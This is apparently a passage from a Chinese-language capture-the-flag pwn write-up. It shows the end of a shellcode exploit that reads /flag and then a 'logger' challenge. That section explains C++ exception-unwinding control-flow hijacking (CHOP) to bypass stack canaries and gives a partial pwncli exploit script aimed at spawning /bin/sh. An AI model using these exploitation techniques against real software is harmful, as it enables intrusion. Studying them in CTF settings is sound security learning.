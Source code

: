 ```python

child_code:
"""

s(asm(shellcode) + asm(shellcraft.cat("/flag")))

ia()
```

---

## logger

异常处理，参考 [溢出漏洞在异常处理中的攻击利用手法-上](https://xz.aliyun.com/t/12967)

CHOP 指的是借助 Cpp 的 try-catch 机制 + 栈溢出等漏洞可以控制 RBP 并劫持控制流到其它 catch 块中，也可以借助该手段无视 canary 保护，基本原理如下：

1. `_Unwind_Resume` 函数中会根据栈帧恢复 RBP；
2. 同时会根据栈上的返回地址往上找上一层 catch 块，再通过 `_Unwind_Resume` 恢复执行上下文；
3. 因此就可以把返回地址溢出写成其它 try 块中的地址（因为不能下条指令和当前地址一样，所以通常写 `try_addr + 1`），控制流就能被劫持到对应的 catch 块中。

回到题目，看到有个函数里面有 Hello，本来打算试试能不能把 rip 劫持上去输出点什么，结果直接进 shell 了：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
# set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(choice):
    ru(b"Your chocie:")
    sl(i2b(choice))


def trace(data):
    cmd(1)
    ru(b"You can record log details here: ")
    s(data)
    ru(b"Do you need to check the records?")
    sl(b"y")


def warn(data):
    cmd(2)
    ru(b"Type your message here plz:")
    s(data)


for i in range(8):
    trace(b"a" * 0x10)

trace(b"/bin/sh\x00")

```
